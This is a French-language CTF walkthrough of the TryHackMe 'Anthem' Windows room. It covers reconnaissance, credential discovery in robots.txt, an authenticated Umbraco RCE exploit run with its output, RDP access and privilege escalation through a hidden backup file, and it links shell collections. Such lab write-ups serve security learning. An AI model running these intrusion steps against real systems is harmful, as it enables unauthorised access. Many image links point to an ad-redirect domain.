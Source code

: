 ```yaml
---
title: Anthem - TryHackMe
date: 2024-04-27 00:52:30 -0500
description: Anthem sur TryHackMe est une machine Windows facile pour les débutants. L'exploitation implique la découverte de mots de passe dans des fichiers web, l'accès à un CMS Umbraco, l'utilisation d'un exploit RCE pour obtenir un shell, et la recherche et l'utilisation d'un mot de passe administrateur pour l'escalade de privilèges.
categories: [TryHackMe]
tags: [THM, CTFs, Hacking]
image:
    path: https://i.ibb.co/fqf0HnY/Copie-de-Manager-1.png
---
```



- **[The Best Academy to Learn Hacking](https://affiliate.hackthebox.com/nenandjabhata)**.
- **[Beginner Friendly challenges on TryHackMe](https://tryhackme.com/signup?referrer=61e8a27ddd3f3b00496505d1)**.


## Reconnaissance
Avec un petit scan de nmap, je trouve ces 2 ports qui sont ouvert
```sh
└─# /home/blo/tools/nmapautomate/nmapauto.sh $ip
Scanning 10.10.26.182 [65535 ports]
Discovered open port 3389/tcp on 10.10.26.182
Discovered open port 80/tcp on 10.10.26.182
```
- RDP ouvert sur le 3389
- Un site Web Disponible sur le port 80

Dans le site web je trouve le fichier `/robots.txt` qui contient un mot de passe `UmbracoIsTheBest!`, Donc alors maintenant il faut trouver un utilisateur pour ce mot de passe
- Dans le Blog je trouve un poeme avec les mots suivantes:
```plaintext
Born on a Monday,
Christened on Tuesday,
Married on Wednesday,
Took ill on Thursday,
Grew worse on Friday,
Died on Saturday,
Buried on Sunday.
That was the end…       
```
Je copie ce texte et je fais une recherche sur Google, puis je trouve que l'utilisateur qui a fait le poem s'appelle `Solomon Grundy` en faisant reference au mail qui se trouve dans le [We are Hiring](http://10.10.74.33/archive/we-are-hiring/) qui est : `JD@anthem.com`, c'est a dire que c'est l'email de `Jane Doe`, alors le meme cas ici c'est de prendre les premieres lettre de l'utilisateur `Solomon Grundy` et ce sera `SG@anthem.com` et d'acceder avec le mot de passe `UmbracoIsTheBest!` que j'avais deja trouver

### L'acces Initial
Ok, maintenant j'ai un acces administrateur sur le CMS.

>>Chaque fois que je trouve un CMS, je commence toujours par checker sur Google pour des exploits
>{: .prompt-info}

Alors en faisant quelque recherches je trouve un Exploit sur Github [Umbraco-RCE) Remote Code Execution ](https://github.com/noraj/Umbraco-RCE)
[![exploit](https://i.ibb.co/9T90bDT/exploit.png)](https://www.highcpmgate.com/pa1gkrtv?key=abe32dd965f8390efccf9628bbed6b26){:target="_blank"}
L'exploit fonctionne, alors je vais lister les fichiers disponibles avec `powershell` et la commande `ls`
```sh
└─# python3 umbraco.py -u SG@anthem.com -p 'UmbracoIsTheBest!' -i http://10.10.74.33/ -c powershell.exe -a 'ls'


    Directory: C:\windows\system32\inetsrv


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----       05/04/2020     21:51                Config                                                                
d-----       05/04/2020     21:51                de-DE                                                                 
d-----       05/04/2020     11:27                en                                                                    
d-----       05/04/2020     11:27                en-US                                                                 
d-----       05/04/2020     21:51                es-ES                                                                 
d-----       05/04/2020     21:51                fr-FR                                                                 
d-----       05/04/2020     21:51                it-IT                                                                 
d-----       05/04/2020     21:51                ja-JP                                                                 
d-----       05/04/2020     21:51                ko-KR                                                                 
d-----       05/04/2020     21:51                ru-RU                                                                 
d-----       05/04/2020     21:51                zh-CN                                                                 
d-----       05/04/2020     21:51                zh-TW                                                                 
-a----       05/04/2020     11:27         119808 appcmd.exe                                                            
-a----       15/09/2018     08:14           3810 appcmd.xml                                                            
-a----       05/04/2020     11:27         181760 AppHostNavigators.dll                                                 
-a----       05/04/2020     11:26          80896 apphostsvc.dll                                                        
-a----       05/04/2020     11:27         406016 appobj.dll                                                            
-a----       05/04/2020     11:26         131072 aspnetca.exe                                                          
-a----       05/04/2020     11:27          40448 authanon.dll                                                          
-a----       05/04/2020     11:26          24064 cachfile.dll                                                          
```

D'ici on peux creer un shell en `.ps1`, puis la mettre sur la machine et d'avoir un Shell. Mais aussi comme le RDP est deja ouvert, alors je vais voir quels sont les utilisateurs disponible

```sh
└─# xfreerdp /v:10.10.77.208 /u:SG /p:UmbracoIsTheBest! /sec:tls
[01:11:11:148] [31485:31486] [WARN][com.freerdp.crypto] - Certificate verification failure 'self-signed certificate (18)' at stack position 0
[01:11:11:148] [31485:31486] [WARN][com.freerdp.crypto] - CN = WIN-LU09299160F
[01:11:19:471] [31485:31486] [INFO][com.freerdp.gdi] - Local framebuffer format  PIXEL_FORMAT_BGRX32
[01:11:19:472] [31485:31486] [INFO][com.freerdp.gdi] - Remote framebuffer format PIXEL_FORMAT_BGRA32
```

[![user.txt](https://i.ibb.co/FwwBvdk/a1.png)](https://www.highcpmgate.com/pa1gkrtv?key=abe32dd965f8390efccf9628bbed6b26){:target="_blank"}
Je trouve le flag user dans le Bureau `THM{NOOT_NOOT}`

## Privilege Escalation
Maintenant finit avec le user, il faut donc elever nos privilege et etre root sur la Machine.
Dans la room, on me donne un hint sur le mot de passe de l'admin en disant `it's hidden`. Alors je vais afficher tous les fichiers cachee sur la machine

[![Hidden Files](https://i.ibb.co/sRCWFsd/a2.png)](https://www.highcpmgate.com/pa1gkrtv?key=abe32dd965f8390efccf9628bbed6b26){:target="_blank"}

En revenant a mon `C:\` je trouve un nouveau Dossier qui s'appel `backup` et un fichier `restore`.
[![backup](https://i.ibb.co/GpPw2V4/a3.png)](https://www.highcpmgate.com/pa1gkrtv?key=abe32dd965f8390efccf9628bbed6b26){:target="_blank"}

J'avais pas les permissions necessaires pour ouvrir ce fichier, donc j'ai pu le modifier dans les proprietes et ensuite j'affiche le contenue :

[![Admin Pass](https://i.ibb.co/2FwSswt/a4.png)](https://www.highcpmgate.com/pa1gkrtv?key=abe32dd965f8390efccf9628bbed6b26){:target="_blank"}

J'utilise comme le mot de passe administrator pour me connecter au `cmd` et ca marche :

[![Rooted](https://i.ibb.co/g4D8Wqr/a5.png)](https://www.highcpmgate.com/pa1gkrtv?key=abe32dd965f8390efccf9628bbed6b26){:target="_blank"}



## Ressources supplementaires
Voici quelques ressources supplémentaires qui pourraient vous être utiles :
- [Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution ](https://www.exploit-db.com/exploits/46153)
- [Nishang PowerShells](https://github.com/samratashok/nishang/tree/master/Shells)
- [Join Us on Discord](https://discord.gg/wBT9wr9ruG).
